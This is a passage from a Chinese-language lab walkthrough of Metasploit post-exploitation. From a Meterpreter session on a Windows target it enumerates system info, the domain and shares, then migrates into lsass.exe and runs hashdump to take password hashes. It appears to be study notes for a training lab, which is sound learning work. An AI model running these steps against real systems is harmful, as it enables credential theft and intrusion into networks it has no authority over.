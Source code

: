 ![image-20221006104837197](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006104837197.png)

![image-20221006104912478](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006104912478.png)

![image-20221006104936813](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006104936813.png)

输入命令查看目标计算机的名称：

```shell
sysinfo
```

![image-20221006105240454](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006105240454.png)

将会话后台化，并设置一个session ID （此处自动设置了编号为1），使用post模块提供的功能查看目标域：

```shell
background  #Backgrounding session 1...
use post/windows/gather/enum_domain
show options
set SESSION 1
run
```

![image-20221006110110764](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006110110764.png)

使用post模块提供的功能查看目标计算机用户创建的共享

```
use post/windows/gather/enum_shares
show options
set SESSION 1
run
```

![image-20221006110239966](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006110239966.png)

获取目标用户的hash密码，在 Meterpreter 提示符中: 首先迁移到“ lsass.exe”进程(ps 将列出其 PID) ，然后运行“ hashdump”。

```shell
sessions
sessions -i 1
ps    #找到lsass.exe进程对应的PID，这个进程的用户是 NT AUTHORITY\SYSTEM 有很高的权限
migrate 756 
hashdump
```

![image-20221006110856141](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006110856141.png)

![image-20221006111029932](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006111029932.png)

![image-20221006111756948](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006111756948.png)

![image-20221006111530713](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221006111530713.png)
